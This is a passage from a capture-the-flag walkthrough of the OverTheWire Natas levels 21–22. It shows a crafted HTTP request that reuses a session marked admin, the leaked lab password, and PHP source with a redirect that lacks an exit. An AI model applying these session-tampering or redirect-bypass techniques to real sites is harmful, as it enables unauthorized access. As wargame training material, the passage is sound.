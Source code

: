 This means that our PHPSESSID now has admin=1

If we send a request to the main page with below PHPSESSID we will pass the admin check.  
PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7

```text
GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7
Upgrade-Insecure-Requests: 1

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>
```

chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

### natas22

```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

If revelio is in $\_GET and admin is not set add a location header. This will result in a 302 redirect. Then, if revelio is in the $\_GET request show the password.

We can set revelio with teh following params.  
natas22.natas.labs.overthewire.org/?revelio=a

but if we do we get redirected.
